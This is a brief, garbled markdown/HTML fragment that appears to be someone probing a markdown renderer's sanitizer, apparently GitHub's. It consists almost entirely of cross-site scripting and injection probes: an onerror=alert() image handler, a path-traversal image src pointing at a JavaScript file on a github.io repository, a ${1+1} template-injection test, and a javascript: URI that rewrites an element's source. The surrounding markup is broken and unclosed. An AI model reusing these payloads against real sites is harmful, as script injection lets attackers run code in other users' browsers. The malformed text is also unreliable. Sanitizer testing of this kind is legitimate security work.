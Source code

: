 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img id="meu" src="" tabindex=onerror=alert()></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
